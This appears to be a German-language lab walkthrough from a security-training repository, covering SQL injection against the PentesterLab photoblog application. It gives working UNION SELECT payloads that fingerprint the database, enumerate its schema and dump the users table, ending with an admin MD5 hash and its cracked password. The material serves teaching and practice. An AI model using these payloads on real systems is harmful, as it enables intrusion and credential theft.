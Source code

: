 # SQL Injection to Shell – Exploitation Walkthrough



## Inhaltsverzeichnis
- [Einleitung](#einleitung)
- [Erste Tests](#erste-tests)
- [Datenbankaufbau erkunden](#datenbankaufbau-erkunden)
- [Benutzeranmeldeinformationen extrahieren](#benutzeranmeldeinformationen-extrahieren)
- [Haftungsausschluss](#haftungsausschluss)



## Einleitung

Dieses Dokument beschreibt einen vollständigen SQL-Injection-Angriff mit dem Ziel, Informationen aus der Datenbank zu extrahieren und Zugangsdaten zu erlangen. Die genutzte Zielanwendung basiert auf einer MySQL-Datenbank.

- **MySQL-Version:** 5.1.63-0+squeeze1  
- **Datenbank:** photoblog  
- **Benutzer:** pentesterlab@localhost  
- **Datenverzeichnis:** /var/lib/mysql/  

Ziel der folgenden Schritte ist es, über SQL Injection Zugriff auf sensible Daten zu erlangen, die zur weiteren Kompromittierung des Systems verwendet werden können.



## Erste Tests

### Basistest
```http:
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,2,3,4 --+
```

### Version Anzeigen
```http:
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,version(),3,4 --+
```

### Aktive Datenbank anzeigen
```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,database(),3,4 --+
```

### Benutzer anlegen
```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,user(),3,4 --+
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Datenbankaufbau erkunden

### Datenbanken auflisten

```sql
UNION SELECT 1,group_concat(schema_name),3,4 FROM information_schema.schemata
```

**Ergebnis Beispiel:**
- information_schema
- photoblog

**Ziel-Datenbank: Beispiel:**
- photoblog

### Tabellen in der photoblog-Datenbank

```sql
UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema=database()
```

**Ergebnis Beispiel:**
- categories
- pictures
- users

### Spalten der Tabelle `users`

```sql
UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name=0x7573657273
```

***HINWEIS:*** 
0x7573657273 ist Hexadezimal aus dem Wort users

**Ergebnis Beispiel:**
- id
- login
- password



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Benutzeranmeldeinformationen extrahieren

```http
http://192.168.1.142/cat.php?id=2 UNION SELECT 1,group_concat(id,0x3a3a,login,0x3a3a,password),3,4 FROM users
```

**Ergebnis (entschlüsselt):** **Beispiel**
```cpp
1::admin::8efe310f9ab3efeae8d410a8e0166eb2
```

**Anmeldeinformationen:** **Beispiel**
- Benutzername: admin
- Passwort-Hash (MD5): 8efe310f9ab3efeae8d410a8e0166eb2
- Klartext-Passwort: P4ssw0rd



## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---